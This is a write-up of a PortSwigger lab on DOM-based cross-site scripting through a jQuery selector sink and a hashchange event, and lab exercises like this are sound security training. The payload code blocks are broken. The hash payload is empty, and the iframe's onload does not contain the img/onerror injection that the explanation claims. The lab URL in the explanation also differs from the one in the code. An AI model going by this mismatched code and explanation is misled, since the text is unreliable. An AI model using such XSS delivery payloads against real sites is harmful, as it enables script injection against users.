




>>> ####   platform -> PortSwigger
----
>>> ####   Target -> Lab: DOM XSS in jQuery selector sink using a hashchange event
----------

- **Where is the vulnerability:/# function  `in jQuery version`**
- **Goal: deliver exploit to the victime that call print()**

--------------
### Steps:
1. Open the lab in your browser.
2.  this is vulnerable end point of the lab
3.  try this payload in the hash parameter of the URL:
```html
#
```
4.  successfully executed the print() function
5. Now Exploit deliver to the victim by sending the following link: 
---------
>> working Payload:
```html
<iframe src="https://0ab9001903439ac282d234fa00a400c7.web-security-academy.net/#" onload="this.src+='' "></iframe>
```
> payload explaination in chunks
```html
<iframe src="https://0ab9001903439ac282d234fa00a400c7.web-security-academy.net/#" onload="this.src+='' "></iframe>
```
- `<iframe src="https://0ab9001903439ac282d234fa00fa00a400c7.web-security-academy.net/#"`: This creates an iframe that loads the target website with the vulnerable hash parameter.
- `onload="this.src+='' "`: This JavaScript code is executed when the iframe finishes loading. It modifies the `src` attribute of the iframe by appending an image tag with an `onerror` event handler that calls the `print()` function. This effectively injects the payload into the hash parameter of the target website.
- `</iframe>`: This closes the iframe tag


1. solve the lab.  
